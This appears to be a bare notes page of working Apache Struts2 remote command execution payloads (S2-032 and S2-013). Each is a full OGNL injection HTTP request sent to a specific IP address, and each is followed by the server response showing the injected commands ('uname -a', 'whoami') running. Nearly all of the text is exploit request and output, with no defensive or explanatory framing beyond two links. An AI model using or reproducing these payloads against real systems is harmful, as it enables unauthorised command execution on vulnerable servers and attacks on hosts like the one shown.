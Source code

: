 2016 devMode

http://ysg.glodon.com/webIndex/index.action

http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

# S2-032
GET /S2-032/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&cmd=uname%20-a&pp=%5C%5CA&ppp=%20&encoding=UTF-8 HTTP/1.0
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Content-Type: application/x-www-form-urlencoded
Host: 139.224.74.135:8080

HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Content-Length: 113
Date: Sat, 17 Sep 2016 05:17:21 GMT
Connection: close

Linux iZ11q7g8xcmZ 3.13.0-86-generic #130-Ubuntu SMP Mon Apr 18 18:27:15 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux

# S2-013
POST /S2-013/link.action HTTP/1.0
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; MAXTHON 2.0)
Host: 139.224.74.135:8080
Content-Length: 627

redirect:${%23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27whoami%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27),%23str%3d%23s.hasNext()?%23s.next():%27%27,%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),%23resp.setCharacterEncoding(%27UTF-8%27),%23resp.getWriter().println(%23str),%23resp.getWriter().flush(),%23resp.getWriter().close()}HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Date: Sat, 17 Sep 2016 06:22:26 GMT
Connection: close

tomcat7
